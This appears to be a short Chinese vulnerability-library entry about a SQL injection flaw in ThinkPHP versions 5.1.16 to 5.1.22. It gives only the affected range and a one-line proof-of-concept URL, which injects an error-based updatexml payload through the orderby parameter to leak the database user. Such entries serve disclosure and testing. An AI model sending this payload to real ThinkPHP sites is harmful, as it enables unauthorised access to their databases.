 ```yaml
---
title: 'Thinkphp-5.1.(16-22)-sql注入漏洞'
date: Wed, 07 Oct 2020 06:02:29 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.1.16 <= ThinkPHP <= 5.1.22

### 漏洞POC

```
http://********/index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 
```